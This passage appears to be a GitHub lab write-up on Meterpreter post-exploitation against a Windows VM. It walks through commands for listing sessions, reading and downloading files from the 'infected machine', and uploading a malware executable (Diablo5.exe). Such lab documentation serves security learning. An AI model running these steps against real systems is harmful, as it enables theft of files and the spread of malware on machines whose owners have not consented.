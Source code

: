 <p align="left">
Pwd Command in Meterpreter <br/>
<img src="https://i.imgur.com/iJc14ev.png" height="35%" width="35%" alt=""/>
<br />

- We can check how many machines had been infected by the virus with the session command
  - > msf6 exploit(multi/handler) > sessions
  - Have to type in the background command first to go back to the exploit(multi/handler)
  - Can go back to the session with the command:
    - > sessions -i [session Id]

<h2></h2>

<h2>Viewing, Downloading, and Uploading Files with Meterpreter</h2>

- We can use the list command to see what is in the directory that the virus is downloaded on
  - > ls
  - This lists all the files on the directory that the virus is downloaded on

<p align="left">
List Command in Meterpreter <br/>
<img src="https://i.imgur.com/hbpG8Un.png" height="35%" width="35%" alt=""/>
<br />

- We can use the cat command to read the files
  - > cat desktop.ini
  - This gives the configuration information for the Windows VM
 
<p align="left">
Cat Command in Meterpreter <br/>
<img src="https://i.imgur.com/P6pmhuM.png" height="35%" width="35%" alt=""/>
<br />

- We can even download the files from the infected machine to our hacking device [Kali Linux] by using the download command
  - > download desktop.ini

<p align="left">
Download Command in Meterpreter <br/>
<img src="https://i.imgur.com/5vtE8Po.png" height="35%" width="35%" alt=""/>
<br />

- We can change the directory for the hacking device on the infected machine by using the cd command
  - > cd ../Documents
  - This changes the directory from Download to Documents
    
<p align="left">
Cd Command in Meterpreter <br/>
<img src="https://i.imgur.com/Y0KL4gq.png" height="35%" width="35%" alt=""/>
<br />

- We can upload our virus one more time into the infected machine's Documents directory by using the upload command
  - First, we need to find out where the virus is located in our Kali Linux hacking device
    - Our location: /home/jeff/Desktop/Diablo5.exe
  - > upload /home/jeff/Desktop/Diablo5.exe
